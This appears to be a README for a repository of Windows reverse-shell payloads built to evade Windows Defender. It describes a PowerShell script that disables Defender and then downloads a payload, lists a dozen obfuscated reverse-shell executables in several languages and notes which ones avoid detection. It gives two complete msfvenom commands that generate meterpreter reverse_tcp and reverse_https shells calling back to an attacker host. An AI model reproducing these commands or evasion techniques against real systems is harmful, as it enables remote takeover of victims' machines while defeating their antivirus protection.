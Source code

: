 # !!DOWNLOAD ONLY IN A CONTROLLED ENVIRONMENT!!

## all payloads here points to host 192.168.0.10:4444

`kib_keyboard.ps1` is a powershell script that disables windows defender and notifications, then downloads the actual payload.

### payload descriptions (files denoted with X is detected by windows defender):
1. `kidx86.exe` is a x86 tcp reverse shell writtern in c++ endcoded using shikata_ga_nai, with byte change, scrambled byes, extra dummy bytes and byte order obfuscation. 12/69 hits in [VirusTotal](https://www.virustotal.com/gui/file/f0223b32b6d12ea8414eff31ec673b9438d988532bc6b2623ed1d42215f35803/detection) (when it was first submitted). Able to bypass windows defender.
2. `kidx86_source.cpp` is the source file of the payload.
3. `shell.c` is the raw payload from msfvenom. Generated by ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=4444 -e x86/shikata_ga_nai -i 8 -f c > shell.c```
4. `shell.exe` is a generic tcp reverse shell. X
5. `bkbx64.exe` is a x64 tcp reverse shell encoded in a custom c++ payload. X
6. `bkbx86.exe` is a x86 tcp reverse shell encoded in a custom c++ payload. X
7. `bkbpayload.ll` and `bkbpayloadraw.cs` are XOR encoded tcp revershell written in a custom C# payload that uses a powershell file to download and execute in memory. (doesn't work)
8. `test1.exe` is a tcp reverse shell encoded in custom python payload. X 
9. `testing9.exe` is a edited tcp reverse shell created using veil before changing from .bat to .exe. X
10. `c_rtcp.exe` is a tcp reverse shell written in C. X
11. `cs_rtcp.exe` is a tcp reverse shell written in C#. X
12. `go_rtcp.exe` is a tcp reverse shell written in go. X


Generating HTTPS reverse shell ```msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.10 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -e x86/shikata_ga_nai -i 8 -f c > shell.c```

A number of tools and lanaguages was used to the process of trying to bypass windows defender, including: Veil, metasploit windows defender evasion, complining custom payloads, we tried payloads encoded using python, c, c++, c#, ruby, go, java.
